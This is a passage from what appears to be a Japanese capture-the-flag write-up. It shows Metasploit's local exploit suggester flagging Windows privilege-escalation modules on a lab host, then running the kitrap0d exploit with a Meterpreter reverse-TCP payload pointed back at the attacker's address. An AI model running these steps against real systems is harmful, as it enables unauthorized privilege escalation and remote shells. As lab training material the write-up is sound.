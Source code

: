 ```
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
いろいろ使えそうなものが出てきました。
上の方から順に使っていきましょう。

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Launching notepad to host the exploit...
[+] Process 4040 launched.
[*] Reflectively injecting the exploit DLL into 4040...
[*] Injecting exploit into 4040 ...
[*] Exploit injected. Injecting payload into 4040...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
```